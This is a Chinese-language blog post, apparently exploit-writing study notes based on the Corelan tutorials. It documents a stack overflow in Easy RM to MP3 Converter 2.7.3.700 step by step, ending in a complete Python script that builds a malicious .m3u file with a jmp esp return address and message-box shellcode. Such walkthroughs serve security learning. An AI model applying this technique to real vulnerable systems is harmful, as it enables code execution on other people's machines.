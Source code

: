 ```yaml
---
layout: post
title: "exploit编写笔记1——基于栈的溢出"
description: "exploit"
category: 技术
tags: [exploit]
---
```

{% include JB/setup %}

很早以前对漏洞利用这一块就有所了解，当时觉得这些都是一些小tricky，玩的都是一些故意的玩具漏洞，这段时间准备重新拾起来，开始按照教材corelan上面的教材一个一个对着实际的漏洞写exploit。这是第一篇，古老的buffer overflow。因为之前都是OD or windbg，现在要练习一下Immunity Debugger。所以这篇都是用的Immunity。

**目标软件**

	Easy RM to MP3 Converter（版本2.7.3.700）

**工具**

	Immunity Debugger

**漏洞描述**

	通过创建一个恶意的.m3u文件将触发Easy RM to MP3 Converter (version 2.7.3.700)缓冲区溢出利用。

**测试平台**
	
	 Microsoft Windows XP Professional 5.1.2600 Service Pack 3 Build 2600

下面是详细的exploit步骤

<h3>1. 漏洞触发</h3>

我们首先构造一个30000个字符的.m3u文件，前面25000全为'A'，后5000个为'B'。下面是构造的脚本

		filename = "crash.m3u"
		f = open(filename,'w')
		data = 'A' * 25000 + 'B' * 5000
		f.write(data)
		f.close()

使用Easy RM to MP3 Converter加载这个crash.m3u文件，可以看到发生错误，查看详细信息，如图。

![](/assets/img/exploit1/1.PNG)

从图可以看到，溢出之后的返回地址是0x42424242，也就是'BBBB'，这说明要覆盖的EIP在25000到30000之间。下面使用Immunity的查件mona来进行精确定位。


<h3>2. EIP定位</h3>

使用Immunity Debugger加载Easy RM to MP3 Converter,Run起来，加载crash.m3u。遇到异常之后Immunity接手。

首先设置mona的工作目录：
	
	!mona config -set workingfolder c:\mona\%p

创建包含5000个字符的pattern：
	
	!mona pattern_create 5000
	
![](/assets/img/exploit1/2.PNG)

此时pattern文件在C:\mona\RM2MP3Converter\pattern.txt，将pattern中的5000个字符替换crash.m3u中最后5000个字符。脚本如下：
		
		filename = "crash_pattern.m3u"
		f = open(filename,'w')
		data = 'A' * 25000
		
		fp = open("pattern.txt",'r')
		data += fp.read()
		f.write(data)
		f.close()

pattern.txt是删除了mona生成的一些信息之后的纯5000个字符文件。再次打开目标软件加载crash_pattern.m3u，看到崩溃之后的EIP如下图所示：

![](/assets/img/exploit1/3.PNG)

在command中输入

	!mona pattern_offset 366a4235

![](/assets/img/exploit1/4.PNG)

我们看到EIP被修改的位置是25000 + 1067。

此时我们再用如下脚本测试一下位置是否正确：
	
		filename = "crash.m3u"
		f = open(filename,'w')
		data = 'A' * 26067 + 'B' * 4 + 'C'*100
		f.write(data)
		f.close()

![](/assets/img/exploit1/5.PNG)

我们可以看到，EIP现在是4个B，偏移正确，下面就是如何修改这个EIP

<h3>3. 寻找shellcode存放的地址空间</h3>

再次使用上面.m3u文件，崩溃时，打开栈的窗口

![](/assets/img/exploit1/6.PNG)

我们看到在ESP此时为000FF730，EIP到这里还有3*4=12个字节。ESP开始用于存放shellcode。

<h3>4. 查找jmp esp地址</h3>

再次加载目标程序，Run之后Pause，在CPU窗口，右键 Search For ->All commands in All modules，在之后的窗口输入jmp esp。


![](/assets/img/exploit1/7.PNG) 

我们选一个7C874413。

<h3>5. 构造最终的输入文件</h3>

		shellcode = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
		    "\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
		    "\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
		    "\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
		    "\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
		    "\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
		    "\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
		    "\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
		    "\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
		    "\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
		    "\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
		    "\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
		    "\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
		    "\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
		    "\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
		    "\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
		    "\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
		    "\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
		    "\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
		    "\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
		    "\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
		    "\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
		    "\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
		    "\x40\xFF\x54\x24\x40\x57\xFF\xD0");
		
		ret = "\x13\x44\x87\x7c";
		filename = "crash.m3u"
		f = open(filename,'w')
		data = 'A' * 26067 + ret + '\x90' * 12 + shellcode
		f.write(data)
		f.close()

![](/assets/img/exploit1/8.PNG) 

我们看到，成功利用了这个漏洞。
